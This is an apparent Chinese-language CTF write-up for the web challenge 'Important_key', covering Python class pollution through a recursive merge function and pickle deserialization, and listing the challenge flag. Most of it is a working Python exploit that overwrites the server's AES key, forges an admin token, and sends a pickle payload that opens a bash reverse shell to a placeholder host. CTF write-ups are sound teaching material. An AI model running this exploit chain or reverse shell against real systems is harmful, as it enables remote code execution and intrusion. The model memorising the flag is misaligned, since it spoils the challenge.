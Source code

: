 * **题目名称：** Important_key

* **题目类型：** WEB

* **题目难度：** (中等）

* **出题人：** fru1ts

* **考点：**  

1. python原型链污染
2. pickle反序列化

* **描述：**  都不知道密钥看你们怎么反序列化

* **flag：** XSCTF{p0ll8ti0n_p1ckl3_mast3r_79316}

* **Writeup：** 

  思路：在`login`路由直接给了一个pickle反序列化入口，这里则可以实现RCE。但是要进入反序列化需要进行身份认证，admin才能进入，所以需要进行伪造。可以看到用的是AES-CBC解密，但是需要密钥，而代码中密钥是随机产生的，好像伪造不了。但看到`/`路由，使用了`merge`函数递归合并属性，存在典型的原型链污染。所以可以利用原型链污染修改AES的密钥，然后自己的密钥加密"admin"，然后进行pickle反序列化，由于是无回显所以需要反弹shell。

  exp如下：
  
  ```python
  import requests
  import base64
  import pickle
  from verify import *
  
  
  url=""
  
  def index(key):
      data={
              "__init__":{
                  "__globals__":{
                      "User":{
                          "key":base64.b64encode(key)
                      }
                  }
              }
          }
      res=requests.post(url=url,json=data)
      print(res.text)
  
  def login(key): 
      class EXP():
          def __reduce__(self):
              command=r"__import__('os').system('bash -c \"bash -i >& /dev/tcp/vps/port 0>&1\"')"
              return (eval,(command,)) 
      
      p=EXP()
      op=pickle.dumps(p)
      b64op=base64.b64encode(op)
      # print(b64op)
  
      user=User()
      enc=user.encrypt("admin",key)
      # print(enc)
  
      data={
          "role":enc,
          "data":b64op
      }
      r=requests.post(url=url+"login",data=data)
      print(r.text)
  
  if __name__=="__main__":
      key=os.urandom(16)
      index(key)
      login(key)
  ```
  
  
